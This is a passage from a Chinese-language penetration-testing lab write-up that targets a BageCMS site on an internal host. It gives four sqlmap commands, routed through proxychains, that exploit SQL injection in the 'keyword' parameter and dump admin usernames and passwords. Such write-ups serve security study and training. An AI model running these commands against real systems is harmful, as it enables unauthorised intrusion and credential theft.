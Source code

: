 开放了80端口

### 3.2漏洞发现和利用

浏览器挂上代理访问80端口

[![](assets/1705981930-5f3db605d12fbc52c395f6c732e76f36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143507-378d7118-b827-1.png)

使用BagaCMS，可以查找相关的漏洞，但是源码中有提示存在SQL注入

手工可验证，这里Sqlmap梭哈

```plain
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword --dbs --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms --tables --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin --columns --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin -C username,password --dump --random-agent -keep-alive
```

[![](assets/1705981930-be54f57609f556ceaf32a0e41b992ecc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143526-433e0306-b827-1.png)
